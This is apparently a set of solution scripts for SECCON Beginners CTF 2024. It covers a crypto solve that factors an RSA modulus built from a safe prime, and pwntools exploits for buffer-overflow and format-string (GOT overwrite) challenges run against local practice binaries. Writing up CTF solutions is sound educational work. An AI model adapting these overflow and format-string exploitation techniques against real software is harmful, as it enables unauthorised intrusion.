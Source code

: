 # SECCON Beginners CTF 2024

- https://github.com/SECCON/SECCON_Beginners_CTF_2024

## crypto

### Safe Prime

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=5m40s

#### Solution 1

```python
#!/usr/bin/env python3
from Crypto.Util.number import long_to_bytes
from sympy import symbols, Eq, solve
n = 292927367433510948901751902057717800692038691293351366163009654796102787183601223853665784238601655926920628800436003079044921928983307813012149143680956641439800408783429996002829316421340550469318295239640149707659994033143360850517185860496309968947622345912323183329662031340775767654881876683235701491291
c = 40791470236110804733312817275921324892019927976655404478966109115157033048751614414177683787333122984170869148886461684367352872341935843163852393126653174874958667177632653833127408726094823976937236033974500273341920433616691535827765625224845089258529412235827313525710616060854484132337663369013424587861
e = 65537
# q = 2 * p + 1
# n = p * q
# c = pow(m, e, n)
p = symbols('p')
eq = Eq(n, p*(2*p + 1))
solutions = solve(eq, p)
print(f'{solutions=}')
p = int(max(solutions))
q = 2*p + 1
phi = (p - 1) * (q - 1)
d = pow(e, -1, phi)
m = pow(c, d, n)
print(long_to_bytes(m).decode())
```

## pwnable

### simpleoverflow

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=2m30s

#### Solution 1

```zsh
python3 -c "print('A'*10)"|./chall
```

#### Solution 2

```python
#!/usr/bin/env python3
from pwn import ELF, context, p64, process, remote
context.log_level = 'debug'
exe = context.binary = ELF('./chall')
# io = exe.process([exe.path])
io = remote('::1', 9000)
io.sendlineafter(b'name:', b'A'*0xe + b'B'*0x8 + p64(0x4011ef))
io.interactive()
```

### simpleoverwrite

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=17m30s

#### Solution 1

```python
#!/usr/bin/env python3
from pwn import ELF, context, p64, process
# context.log_level = 'debug'
exe = context.binary = ELF('./chall')
io = process([exe.path])
io.sendlineafter(b'input:', b'A'*0xa + b'B'*8 + p64(exe.sym.win))
io.interactive()
```

### pure-and-easy

- https://qiita.com/mae_t/items/91a82f8efe361305c29b
- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=63m31s

#### Solution 1

```python
#!/usr/bin/env python3
from pwn import ELF, FmtStr, context, fmtstr_payload, gdb, log, process, remote
# context.log_level = 'debug'
exe = context.binary = ELF('./chall')
# io = process([exe.path])
# io = gdb.debug([exe.path], gdbscript='b main \n c')
io = remote('::1', 9000)


def exec_fmt(payload):
    p = process([exe.path])
    p.sendline(payload)
    return p.readline()


autofmt = FmtStr(exec_fmt)
offset = autofmt.offset
payload = fmtstr_payload(
        offset, {exe.got.exit: exe.sym.win})
log.info('payload: %s', (repr(payload)))
io.sendlineafter(b'>', payload)
io.stream()
```

## web

#### wooorker

- https://github.com/SECCON/SECCON_Beginners_CTF_2024/tree/main/crypto/Safe%20Prime
